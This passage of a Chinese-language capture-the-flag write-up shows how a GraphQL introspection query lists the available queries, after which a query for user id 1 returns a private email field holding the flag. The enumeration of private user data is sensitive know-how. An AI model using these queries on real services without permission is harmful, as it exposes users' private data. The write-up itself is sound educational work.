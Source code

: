 Great！里面有个`privateEmail`，flag 应该就在里面。然后看一下`Query`里面定义的可用查询
```request
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```
结果：
```json
{
	"data": {
		"__schema": {
			"queryType": {
				"fields": [
					{
						"name": "note",
						"description": "Get a specific note information"
					},
					{
						"name": "notes",
						"description": "Get notes information of a user"
					},
					{
						"name": "user",
						"description": "Get a specific user information"
					}
				]
			}
		}
	}
}
```
那么最后猜测 admin 的 id 是 1，构造请求：
```request
{
    user(id:1) { 
        privateEmail 
    } 
}
```
返回结果：
```json
{
	"data": {
		"user": {
			"privateEmail": "flag{dont_let_graphql_l3ak_data_7e63d49f66@hackergame.ustc}"
		}
	}
}
```
GET FLAG!!!
